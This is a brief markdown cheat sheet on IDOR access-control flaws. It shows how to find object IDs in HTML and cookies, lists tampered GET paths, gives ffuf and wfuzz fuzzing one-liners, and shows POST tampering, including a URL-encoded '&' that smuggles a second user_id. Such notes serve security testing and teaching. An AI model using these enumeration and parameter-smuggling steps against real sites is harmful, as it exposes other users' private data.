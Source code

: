 ```yaml
---
title: IDOR (Insecure Direct Object References) Attack
description: IDOR is a type of access control vulnerability in web applications.
tags:
    - Web
refs:
date: 2023-08-22
draft: false
---
```


## Find Vulnerabilities from HTML Source Code

First check values of attributes on input elements.

```html
<input name="user_id" value="8" >
```

Then try what will happen when you change the Cookie value in a HTTP header.

```txt
Cookie: user_id=12
```

<br />

## Change GET Parameters

### Manual

```sh
/user?id=1
/user?id=2
/user?id=-1
/user?id=00

/admin/posts/1
/admin/posts/-1
/admin/posts/00

/static/1.txt
/static/2.txt
/static/-1.txt
/static/00.txt
```

### Automation

```sh
seq 0 100 | ffuf -u https://example.com/user?id=FUZZ -w -

wfuzz -z file,./numbers.txt https://example.com/user?id=FUZZ
```

<br />

## Change POST Parameters

```bash
address=1&user_id=1
address=1&user_id=2

# URL Encode '&'
address=1%26user_id=2
```
